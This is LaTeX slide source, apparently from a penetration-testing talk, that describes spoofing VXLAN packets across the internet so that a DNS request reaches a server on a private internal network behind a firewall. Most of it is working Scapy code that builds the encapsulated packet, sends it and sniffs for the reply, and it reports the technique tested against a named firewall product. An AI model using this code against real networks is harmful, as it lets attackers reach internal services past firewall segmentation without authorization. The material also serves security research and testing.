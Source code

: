 \documentclass[16pt,landscape,a4paper,footrule]{foils}
\begin{document}
\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s): DNS request dst 10.0.0.10 UDP dport 53
\item Source for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination that reaches server
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap this packet is sent to the server
\item Server process DNS request, send back response
\item Attacker waiting for the UDP DNS reply, gets it
\end{enumerate}
 Attacker can send UDP DNS request to inside server on RFC1918 destination.
 Tested working with Clavister with DNS UDP probes/requests, no inspection \smiley





First create VXLAN header and inside packet
\begin{alltt}\footnotesize
vxlanport=4789
vni=37 {\bf
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet={\bf vxlan}/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{alltt}

{\small Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server}



Send and then wait for something, not from same IP bc from inside NAT, but port should be OK
\begin{alltt}\footnotesize
pid = os.fork()
if pid:
    # we are the parent
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 192.0.2.0/24", count=1)
else:
    # we are the child
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
#print data.summary()
data[0].show()
\end{alltt}
\end{document}
